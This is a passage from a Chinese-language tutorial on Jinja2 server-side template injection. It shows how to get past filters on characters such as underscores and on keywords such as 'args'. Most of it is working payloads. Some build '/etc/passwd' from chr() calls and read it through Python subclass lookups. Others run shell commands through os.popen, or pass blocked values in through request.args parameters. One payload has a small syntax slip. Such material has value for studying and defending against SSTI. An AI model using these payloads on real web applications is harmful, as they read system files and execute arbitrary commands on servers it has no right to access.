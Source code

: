 整合在一起就变成了

```
{% set chr=().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.[0].__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}
```

```
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}
```

等同于

```
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}
```

##### 利用request对象绕过

request有两种形式，`request.args`和`request.values`，当args被过滤时我们可以使用values，且这种方法POST和GET传递的数据都可以被接收，相对于通过`chr()`进行绕过，这种方法更为简单和便捷。

```
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

构造后为

```
{{().__class__.__bases__[0].__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__[request.args.os].popen(request.args.cmd).read()}}&os=os&cmd=ls /
```

#### 过滤了下划线`_`

##### 利用request对象绕过

又用到了这种方法，看来这种方法十分强大

```
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

构造后为

```
{{().__class__.__bases__[0].__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__[request.args.os].popen(request.args.cmd).read()}}&os=os&cmd=ls /
```
